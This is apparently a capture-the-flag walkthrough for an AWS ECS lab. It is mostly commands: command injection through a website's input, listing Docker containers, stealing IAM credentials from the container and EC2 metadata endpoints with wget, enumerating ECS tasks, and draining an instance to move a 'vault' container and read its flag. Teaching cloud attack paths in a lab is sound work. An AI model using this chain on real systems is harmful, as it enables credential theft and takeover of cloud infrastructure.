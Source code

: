 1. Find the command injection vulnerability in the website.

    ```bash
    ; echo 'hello world'
    ```

3. Using command injection list the container on the host and get the ID for the privd container.

   `; docker ps --format '{{.Names}} -- '`

   The privd docker ID will be the first field in the output from the following command.

   `; docker ps | grep privd`

4. Using command injection get the container credentials from the privd container as well as the host ECS instance.

   `; docker exec <container id> sh -c 'wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'`
   
   `; docker exec <container id> sh -c 'wget -O- 169.254.169.254/latest/meta-data/iam/security-credentials/<ecs-agent>'`

5. With the privd credentials list the clusters in the account then enumerate the tasks.

   ```
   aws ecs list-clusters --profile privd
   tasks=$(aws ecs list-tasks --cluster <my-cluster> --profile ecs --query taskArns --out text)
   aws ecs describe-tasks --cluster <my-cluster> --profile ecs --tasks $tasks --query 'tasks[].[taskDefinitionArn, taskArn, containerInstanceArn]' --out text
   ```

6. Set the container instance that is running the vault container to DRANING

    `aws ecs update-container-instances-state --cluster <my-cluster> --container-instances <target-instance> --status DRAINING`

9. Wait for "Vault" container to be rescheduled, this can be checked by running docker via command injection.

    `; docker ps | grep vault`

10. Using the command injection on the website get the flag from the "vault" container.

    ```
    ; docker exec <container id> ls
    ; docker exec <container id> cat FLAG.TXT
    ```
